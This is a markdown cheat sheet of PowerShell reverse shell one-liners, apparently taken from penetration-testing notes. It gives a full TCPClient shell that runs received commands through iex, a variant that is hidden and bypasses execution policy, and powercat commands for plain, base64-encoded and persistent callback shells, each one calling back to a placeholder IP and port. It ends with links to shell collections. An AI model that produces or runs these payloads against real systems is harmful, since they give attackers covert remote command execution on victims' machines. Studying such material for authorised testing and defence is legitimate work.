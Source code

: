# Powershell

## 01 - Regular

```powershell
PS C:\> $client = New-Object System.Net.Sockets.TCPClient("<IP>", <PORT>); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> "; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte, 0, $sendbyte.Length); $stream.Flush()}; $client.Close()

C:\> powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("<IP>", <PORT>);$stream = $client.GetStream(); [byte[]]$bytes = 0..65535 | % {0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (iex $data 2>&1 | Out-String);$sendback2  = $sendback + "PS " + (pwd).Path + "> "; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte, 0, $sendbyte.Length); $stream.Flush()}; $client.Close()
```

## 02 - Powercat

Generate reverse shell

```
PS C:\> powercat -c <IP> -p <PORT> -e cmd.exe -g
```

Generate base64 encoded reverse shell

```
PS C:\> powercat -c <IP> -p <PORT> -e cmd.exe -ge
```

Persist callback shell

```
PS C:\> powercat -c <IP> -p <PORT> -e cmd.exe -rep
```

---
## References

- [Hacktricks Shell Windows](https://book.hacktricks.xyz/shells/shells/windows)

- [Powercat](https://github.com/besimorhino/powercat)

- [Commands in Windows to Get Shell](https://ironhackers.es/en/cheatsheet/comandos-en-windows-para-obtener-shell/)

- [Awesome Reverse Shell](https://github.com/MrPineMan/Awesome-Reverse-Shell)

- [One-Lin3r](https://github.com/D4Vinci/One-Lin3r)